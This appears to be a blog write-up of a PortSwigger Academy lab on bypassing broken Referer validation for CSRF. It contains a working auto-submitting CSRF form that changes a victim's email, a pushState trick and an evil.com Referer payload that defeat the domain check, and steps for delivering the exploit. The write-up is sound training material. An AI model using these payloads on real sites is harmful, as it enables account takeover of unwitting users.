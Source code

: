 ```yaml
---
layout: post
title:  "CSRF with broken Referer validation"
date:   2024-10-04 09:39:54 +0530
categories: BSCP
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Just like the other CSRF labs, we have a unctionality to update the email by looking into `My Account` tab 

![]({{ site.baseurl }}/assets/images/csrf-26.png)

I thought of removing the values of `Referrer` header and analyse the response.. So I did this by removing the values of the particular, sent the request and responded with `"Invalid referer header"`

![]({{ site.baseurl }}/assets/images/csrf-27.png)

In the `Referrer` header, I replaced with the following `http://evil.com/@0a78008403f3e9d780764e88003000c0.web-security-academy.net` and the reason is `evil.com` is some random string from my side and for example I gave it.. Then you can observe a lab URL that's the thing being validated here and sent the request, as a response it responded with a `302` meaning our email got updated 

![]({{ site.baseurl }}/assets/images/csrf-28.png)

Everything goes well right, now we can build a CSRF POC and update the `pushState` by adding our payload that we used in the referrer header 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a78008403f3e9d780764e88003000c0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/@0a78008403f3e9d780764e88003000c0.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now, In the exploit server.. Paste the following POC and then in the header.. Add like `Referrer-Policy: unsafe-url` where it will allow the full url through the referrer header.. Then `Store -> Deliver the exploit to victim` which will actually solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-29.png)